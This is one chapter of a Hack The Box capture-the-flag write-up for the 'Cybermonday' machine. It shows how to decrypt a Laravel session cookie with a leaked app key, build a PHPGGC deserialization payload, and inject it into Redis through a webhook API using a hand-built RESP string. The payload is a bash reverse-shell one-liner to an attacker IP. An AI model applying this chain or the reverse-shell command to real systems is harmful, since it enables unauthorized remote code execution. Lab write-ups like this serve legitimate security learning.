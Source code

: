 # Gaining a Foothold

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
**[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)**
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Now that we have a possible attack vector we need to figure out how to implement it. In order to poison our [[laravel|Laravel]] session we need to know what the key for it is called in the [[redis|Redis]] server. Laravel stores that information in a cookie that's sent to the client, however we can't just read it as it's encrypted. Lucky for us, thanks to the `.env` file, we have the key to that encryption. There are a number of scripts around to perform this decryption for us. I used the one from [hacktricks here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel#decrypt-cookie). Once you have the decryption script, set the app_key to the one in the `.env` file. Also take note of the `REDIS_PREFIX` value while you're there as we'll need this later.

Before we poison our session we'll need something to poison it with. First, download [PHPGGC](https://github.com/ambionics/phpggc) if you don't already have it. Next we need to prepare a payload to use. PHPGGC has a number of [[rce|RCE]] exploits we could use, but some will and won't work depending on the version of Laravel. If one doesn't work, try the next. For the function and parameter we provide `phpggc` we'll use:
```bash
exec "/bin/bash -c 'bash -i >& /dev/tcp/<your ip>/<your port> 0>&1'"
```

Next we need a valid session cookie. Go back to the Cybermonday shopping site and log in again if you've been logged out. Open up the dev tools for your browser and copy the cookie value for `cybermonday_session`. The value is URL encoded to make sure to decode it before using it in the script we downloaded before. The decrypted value will be formatted as `<User Id>|<Session Id><Buffer Bytes>`. Copy the session id down for use in the next step.

Now we have our payload and session id, we need to prepare them in both the [[redis|RESP]] protocol format, and then escape that string for use in our JSON. For passing a command, your RESP formatted string should look like:
```
*3\r\n$3\r\nSET\r\n$56\r\nlaravel_session:<your session id>\r\n$<payload length before JSON escape>\r\n<payload>\r\n
```

So whats going on here? Well commands are passed to RESP as an array. We're passing 3 arguments so we start our string with `*3` with `*` specifying that this is an array. Each data type identifier or piece of data is ended with `\r\n`. Next we specify the command we want to use. Our command `SET` is 3 bytes long so we specify the length as `$3` with `$` specifying that this is a "bulk string". Next is our actual command `SET`, and what follows is the same procedure with our `key` and `value` arguments for the full command. Next we escape the string so that it's passed to the webhook server properly, and we send our `curl` request:
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook guid> \
-H 'x-access-token: <your token>' \
-H 'Content-Type: application/json' \
-d '{"url": "http://redis:6379", "method": "<your prepared resp string>"}'
```

Make sure you've started your `netcat` listener, and then refresh the Cybermonday page. If all goes well, you'll have a reverse shell. If you get a deserialization error in Laravel that starts at byte 0, there was probably an issue in your formatting when sending the request. If the deserialization error starts at a later byte, or you get a different error, try a different `phpggc` exploit.

Next: [Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)